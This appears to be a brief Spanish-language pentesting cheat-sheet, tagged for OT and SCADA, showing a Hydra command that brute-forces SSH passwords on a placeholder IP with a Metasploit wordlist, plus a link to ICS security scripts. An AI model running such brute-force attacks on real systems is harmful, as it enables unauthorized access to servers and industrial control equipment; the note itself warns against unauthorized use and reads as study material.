 # Hydra 

Tags: #BruteForce #OT #SCADA #Python 


```bash 
❯ hydra -l user -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://IP:22 -t 4 -V -I 
	
	# t = Tareas al mismo tiempo 

Nota:
	1. No hacer esto en un ambiente real a menos de que sea autorizado
```

# Python 

```bash 
❯ https://github.com/tijldeneut/ICSSecurityScripts        # Scripts en Python 
```